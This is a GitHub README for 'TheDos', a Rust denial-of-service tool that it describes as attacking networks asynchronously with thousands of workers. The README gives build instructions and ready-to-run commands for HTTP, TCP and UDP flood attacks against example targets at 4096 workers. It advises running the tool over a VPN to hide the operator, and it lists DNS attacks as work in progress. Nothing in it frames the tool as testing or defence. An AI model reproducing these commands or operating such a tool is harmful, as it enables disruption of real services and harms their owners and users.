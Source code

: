 

<p align="center">
    <img src="https://github.com/wildonion/thedos/blob/master/onion.png"
</p>


## ☠ TheDos

Attack networks asynchronously by getting help of workers! 

<p align="center">
    <img src="https://github.com/wildonion/thedos/blob/master/log_nginx.png"
</p>

## 🚬 Usage

> run it over VPN

> default workers are 4096

> build using: ```cargo build --release```

* start http attack with 4096 workers: ```./thedos --http-addr http://example.app --workers 4096```

* start tcp attack with 4096 workers: ```./thedos --tcp-addr 93.184.216.34:24535 --workers 4096```

* start udp attack with 4096 workers: ```./thedos --udp-addr 93.184.216.34:24535 --workers 4096```

OR

* start http attack with 4096 workers: ```cargo run -- --http-addr http://example.app --workers 4096```

* start tcp attack with 4096 workers: ```cargo run -- --tcp-addr 93.184.216.34:24535 --workers 4096```

* start udp attack with 4096 workers: ```cargo run -- --udp-addr 93.184.216.34:24535 --workers 4096```

## 🏗️ WIP

* udp attack

* dns attack